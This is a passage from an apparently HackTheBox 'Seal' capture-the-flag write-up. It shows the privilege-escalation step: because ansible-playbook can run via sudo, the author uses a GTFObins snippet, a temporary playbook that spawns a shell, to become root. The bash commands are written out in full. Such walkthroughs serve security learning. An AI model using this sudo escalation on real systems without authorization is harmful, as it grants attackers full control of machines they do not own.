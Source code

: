## GTFObins POC

I can run `ansible-playbook` binary as `root` user, I quickly jumped to [GTFObins](https://gtfobins.github.io/gtfobins/ansible-playbook/#sudo) which showed following commands to get as `root`. I created `root.sh` file and transfered that file over to target machine.

```bash
TF=$(mktemp)
echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
sudo ansible-playbook $TF
```



After running file `bash root.sh` I was escalated to `root` user. 

![18](/image/hackthebox/seal/18.png)
